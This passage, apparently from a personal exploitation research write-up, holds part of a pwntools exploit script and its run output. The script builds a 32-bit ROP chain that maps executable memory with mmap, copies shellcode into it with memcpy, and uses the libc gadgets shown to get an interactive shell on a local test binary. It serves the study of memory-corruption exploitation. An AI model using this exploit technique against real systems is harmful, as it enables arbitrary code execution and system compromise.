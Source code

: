```python
payload += p32(0x7)
payload += p32(0x22)
payload += p32(0xffffffff)
payload += p32(0)
payload += 'AAAA' * 2
 
 
#memcpy(new_memory,'address of shellcode',(len(shellcode))
payload += p32(libc_memcpy)
payload += p32(libc_xchg_eax_edi)
payload += p32(libc_pop_esi)
payload += p32(new_memory)
payload += p32(libc_pop_ebp)
payload += p32(new_memory)
payload += p32(libc_pop_ebx)
payload += p32(len(shellcode))
payload += p32(libc_pushad)
payload += shellcode
 
# gdb.attach(p,'b*0x8048591')
p.send(payload)
p.interactive()
```
```nasm
$ python script.py 
[*] '/lib/i386-linux-gnu/libc-2.23.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/xfeebe/research/rop-mprotect,mmap/source'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/xfeebe/research/rop-mprotect,mmap/source': pid 9219
[*] Libc base : 0xf7dfb000
[*] mmap addr : 0xf7eddda0
[*] memcpy addr : 0xf7e726f0
[*] Switching to interactive mode
$ id
uid=1000(xfeebe) gid=1000(xfeebe) groups=1000(xfeebe),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$  
```

# x64 - mprotect
